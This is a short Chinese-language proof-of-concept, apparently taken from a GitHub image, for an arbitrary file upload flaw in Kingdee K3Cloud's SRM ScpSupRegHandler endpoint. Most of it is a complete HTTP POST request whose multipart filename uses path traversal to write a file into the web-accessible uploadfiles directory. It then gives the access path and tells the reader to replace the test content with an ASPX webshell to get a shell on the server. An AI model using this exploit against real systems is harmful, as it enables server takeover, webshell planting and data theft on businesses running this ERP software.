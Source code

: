 # -
访问接口\n
http://127.0.0.1/k3cloud/SRM/ScpSupRegHandler

POC：
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061 
Content-Length: 1782
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2023
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/kingdee.txt"
Content-Type: text/plain

test 
--2ac719f8e29343df94aa4ab49e456061—-

上传成功访问路径
http://127.0.0.1/k3cloud/uploadfiles/kingdee.txt
替换poc内上传内容为aspx马，提交上传getshell
